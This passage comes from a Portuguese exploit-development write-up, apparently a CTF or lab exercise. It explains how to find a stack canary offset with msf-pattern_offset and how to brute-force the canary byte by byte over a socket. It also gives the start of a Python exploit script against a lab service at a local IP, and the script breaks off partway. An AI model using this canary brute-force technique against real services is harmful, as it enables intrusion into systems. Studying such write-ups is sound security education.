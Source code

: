 Analisando o *breakpoint*, pode-se verificar que a instrução anterior enviou para **RAX** o valor que está em `[rbp-0x8]`, ou seja, o valor do *Canary* que está logo antes do **RBP**.
Isso significa que o valor de **RAX** neste momento, é o ponto onde o *ciclic pattern* sobrescreveu o *Canary*, e é justamente este valor que será utilizado para consulta de offset no `msf-pattern_offset`:

```bash
$ msf-pattern_offset -l 100 -q 0x3562413462413362
[*] Exact match at offset 40
```

O *offset* para atingir o *Canary* é de 40 bytes, o que segnifica que se for enviado um *buffer* maior que este, a partir do quadragésimo primeiro byte, o *Canary* começa a ser sobrescrito. Esta informação abre brecha para ser utilizado o *brute force*.

#### Brute force do Canary:
Conforme se sabe, o *Canary* é uma sequência de 8 bytes aleatória que é gerada cada vez que o programa é executado, e que se um único byte for sobrescrito, o programa pára sua execução e volta para o início.

Porém, enquanto o programa não for finalizado, o valor do *Canary* continua o mesmo. Exemplificando, pode-se imaginar que o *Canary* tenha o valor de `"\x07\x06\x05\x04\x03\x02\x01\x00"`, caso seja enviado um *buffer* de 40 bytes, mais o byte `"\x0a"`, o *Canary* ficará com o valor de `"\x07\x06\x05\x04\x03\x02\x01\x0a"`, ou seja, o programa pára a função e não retorna a mensagem `"Valeu!"`, conforme visto na enumeração.
Isso significa, que pode-se enviar continuamente 40 bytes, mais 1 byte qualquer, e monitorar a resposta até obter a palavra `"Valeu!"` do programa. A partir deste ponto, começa-se a enviar 40 bytes do *buffer*, mais o byte que resultou na resposta esperada, mais um novo ciclo de tentativas.
Seguindo esta idéia, o esboço inicial do exploit fica como abaixo:

`$ cat exploit.py`
```python
#!/usr/bin/python3


import socket
from struct import pack,unpack
from telnetlib import Telnet

#definindo alvo e funcoes
target = ("192.168.0.125", 666)
p64 = lambda x: pack("Q",x)
u64 = lambda x: unpack("Q",x)

#funcao que fara o Brute Force
def bruteforce(payload):
        for i in range(256):
                next_byte = 0x01 * i
                next_byte = bytes([next_byte])

                tmp_payload = payload + next_byte

                p.send(tmp_payload)
                p.recv(1024)
                output = p.recv(1024)
                if b"Valeu!" in output:
                        print(f"[+] Byte encontrado: {hex(i)}")
                        return next_byte
                if i == 255:
                        print("[-] Erro ao encontrar o proximo byte!")
                        exit()

#Offset para atingir o Canary
offset = b"A" * 40
#Valor para sobrescrever RBP
rbp = b"B" * 8
```